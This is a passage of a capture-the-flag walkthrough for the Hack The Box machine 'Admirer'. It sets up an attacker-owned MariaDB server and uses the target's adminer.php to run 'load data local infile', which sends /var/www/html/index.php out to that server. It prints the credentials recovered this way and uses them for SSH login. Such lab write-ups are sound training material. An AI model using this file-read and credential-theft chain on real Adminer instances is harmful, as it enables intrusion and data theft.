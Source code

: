 ```

MariaDB [(none)]> create user 'hsn'@'%' IDENTIFIED BY 'hsn_admirer';
Query OK, 0 rows affected (0.000 sec)

MariaDB [(none)]> GRANT ALL PRIVILEGES ON * . * TO 'hsn'@'%';
Query OK, 0 rows affected (0.000 sec)

MariaDB [(none)]> FLUSH PRIVILEGES;
Query OK, 0 rows affected (0.000 sec)

MariaDB [(none)]> use admirer
Database changed
MariaDB [admirer]> create table hsn (data VARCHAR(255));
Query OK, 0 rows affected (0.033 sec)

MariaDB [admirer]> quit
Bye
┌─[root@hsn]─[/home/hsn/Desktop/ctf/htb/admirer]
└──╼ #systemctl restart mysql
┌─[root@hsn]─[/home/hsn/Desktop/ctf/htb/admirer]
└──╼ #mysql -h localhost -u hsn -p
Enter password: hsn_admirer
Welcome to the MariaDB monitor.  Commands end with ; or \g.
Your MariaDB connection id is 38
Server version: 10.3.23-MariaDB-1 Debian buildd-unstable

Copyright (c) 2000, 2018, Oracle, MariaDB Corporation Ab and others.

Type 'help;' or '\h' for help. Type '\c' to clear the current input statement.

MariaDB [(none)]>
```

Our database is ready.

Now we need to modify ```/etc/mysql``` to bind it to the database.
Change ```bind-address   = 127.0.0.1``` with ```bind-address   = 0.0.0.0```

According to the exploitation guide, I can login ```http://10.10.10.187/utility-scripts/adminer.php``` with my own database's credentials.

I try to login with my credentials. Yes, it works!

Go to SQL Commands and try to execute this:
```
load data local infile '/var/www/html/index.php'
into table hsn
fields terminated by '/n'
```
Then export it.
When you export it, you can see a new credentials here:
```username: waldo```
```password: &<h5b~yK3F#{PaPB&dA}{H>```

But what is this credentials for? Remember that ssh port is open. Let's try it on ssh connection.
```
┌─[✗]─[root@hsn]─[/etc/mysql/mariadb.conf.d]
└──╼ #ssh waldo@10.10.10.187
waldo@10.10.10.187's password: &<h5b~yK3F#{PaPB&dA}{H>
Linux admirer 4.9.0-12-amd64 x86_64 GNU/Linux
